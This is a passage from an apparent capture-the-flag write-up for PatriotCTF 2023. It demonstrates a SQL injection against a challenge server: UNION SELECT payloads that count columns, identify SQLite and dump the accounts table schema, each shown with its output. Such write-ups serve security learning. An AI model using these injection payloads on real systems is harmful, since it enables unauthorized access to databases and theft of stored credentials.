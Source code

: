 ![](/assets/obsidian/ab255925199266e90439ba854728a82f.png){:target='_blank'}

> PCTF{Hang_

#### 3rd Flag - SQLI (sqlite)

A username was revealed in cookie called : `kiran`

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023] 
└─$ curl -d 'username=kiran' chal.pctf.competitivecyber.club:9090
["112311","one@gmail.com","kiran","nothing here"]
```

SQLI, get how much columns

```bash
username=kiran" union select 1,2,3,4; --
```

```bash
["112311","one@gmail.com","kiran","nothing here"]
```

Get db info, `version()` did not work, assumed it's sqlite

```bash
username=kiran" union select 1,2,3,sqlite_version(); --
```

```bash
["1","2","3","3.40.1"]
```

Get db schema

```bash
username=kiran" union select 1,2,3,(SELECT sql FROM sqlite_schema); --
```

```bash
["1","2","3","CREATE TABLE accounts(id int NOT NULL PRIMARY KEY , email varchar(20) unique, username varchar(20), password varchar(200))"]
```
